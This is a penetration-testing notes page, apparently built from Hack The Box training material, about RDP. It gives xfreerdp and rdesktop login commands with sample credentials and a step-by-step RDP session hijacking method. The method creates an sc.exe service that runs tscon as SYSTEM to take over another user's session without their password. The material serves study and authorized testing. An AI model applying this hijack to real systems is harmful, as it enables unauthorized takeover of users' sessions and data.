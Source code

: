 # Ports
TCP/3389
# Clients
```shell
xfreerdp /v:STMIP /u:Administrator /p:'87N1ns@slls83' /dynamic-resolution
```

```bash
rdesktop -u admin -p password123 192.168.2.143
```
# RDP Session Hijacking
_Note: This method no longer works on Server 2019.

We are logged in as the user juurena (UserID = 2) who has Administrator privileges. Our goal is to hijack the user lewen (User ID = 4), who is also logged in via RDP.
```powershell
whoami

superstore\juurena

query user

username   sesseionname    id
juurena    rdp-tcp#13      2
lewen      rdp-tcp#14      4
```
To successfully impersonate a user without their password, we need to have `SYSTEM` privileges and use the Microsoft [tscon.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/tscon) binary that enables users to connect to another desktop session.
```powershell
tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}
```
iIf we have local administrator privileges, we can use several methods to obtain `SYSTEM` privileges, such as [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec) or [Mimikatz](https://github.com/gentilkiwi/mimikatz). A simple trick is to create a Windows service that, by default, will run as `Local System` and will execute any binary with `SYSTEM` privileges. We will use [Microsoft sc.exe](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) binary. First, we specify the service name (`sessionhijack`) and the `binpath`, which is the command we want to execute. Once we run the following command, a service named `sessionhijack` will be created.
```cmd
 query user

 USERNAME              SESSIONNAME        ID  STATE   IDLE TIME  LOGON TIME
>juurena               rdp-tcp#13          1  Active          7  8/25/2021 1:23 AM
 lewen                 rdp-tcp#14          2  Active          *  8/25/2021 1:28 AM

C:\htb> sc.exe create sessionhijack binpath= "cmd.exe /k tscon 2 /dest:rdp-tcp#13"

[SC] CreateService SUCCESS
```

```cmd
net start sessionhijack
```
Once the service is started, a new terminal with the `lewen` user session will appear
